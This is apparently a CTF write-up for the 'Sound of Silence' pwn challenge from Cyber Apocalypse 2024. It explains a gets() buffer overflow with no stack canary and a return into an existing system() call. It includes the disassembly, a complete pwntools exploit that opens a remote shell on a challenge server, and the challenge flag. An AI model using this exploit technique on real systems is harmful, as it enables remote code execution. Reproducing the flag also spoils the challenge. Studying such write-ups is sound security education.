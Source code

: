 # Cyber Apocalypse 2024

## Sound of Silence

> Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!
> 
> Author: w3th4nds
> 
> [`pwn_sound_of_silence.zip`](pwn_sound_of_silence.zip)

Tags: _pwn_

## Solution
For this challenge we get another binary that we decompile with `Ghidra`. The main is extremely short, there is one system call and then the user is promted to input some data. The read is obviously a `buffer overflow`, since no `canary` is in place we can override the `ret` address. But where to jump to?

```c
void main(void)
{
  char local_28 [32];
  
  system("clear && echo -n \'~The Sound of Silence is mesmerising~\n\n>> \'");
  gets(local_28);
  return;
}
```

If we inspect the assembler code we can see that the pointer to the string, which is passed to `system` is in register `RDI`. A bit further down, we can see the same holds true for `gets`, RDI is pointing to our buffer which `gets` writes the user input to. The idea here would be to keep `RDI` pointing to our buffer and returning directly to address `0040116ch` which is the system call. This way `system` would execute whatever we wrote to our buffer before. 

```bash
00401156 f3 0f 1e fa     ENDBR64
0040115a 55              PUSH       RBP
0040115b 48 89 e5        MOV        RBP,RSP
0040115e 48 83 ec 20     SUB        RSP,0x20
00401162 48 8d 05        LEA        RAX,[s_clear_&&_echo_-n_'~The_Sound_of_S_00402   = "clear && echo -n '~The Sound 
            9f 0e 00 00
00401169 48 89 c7        MOV        RDI=>s_clear_&&_echo_-n_'~The_Sound_of_S_00402   = "clear && echo -n '~The Sound 
0040116c e8 df fe        CALL       <EXTERNAL>::system                               int system(char * __command)
            ff ff
00401171 48 8d 45 e0     LEA        RAX=>local_28,[RBP + -0x20]
00401175 48 89 c7        MOV        RDI,RAX
00401178 b8 00 00        MOV        EAX,0x0
            00 00
0040117d e8 de fe        CALL       <EXTERNAL>::gets                                 char * gets(char * __s)
            ff ff
00401182 90              NOP
00401183 c9              LEAVE
00401184 c3              RET
```

So we effectively can get shell by entering `/bin/sh` and jumping back to the call to `system`:

```python
from pwn import *

p = remote("94.237.53.53", 38666)
b = ELF("./sound_of_silence")

foo = b"/bin/sh\x00"

payload = b"X" * (0x28-len(foo)) + foo
payload += p64(b.sym.main+19)
p.sendline(payload)
p.interactive()
```

Flag `HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}`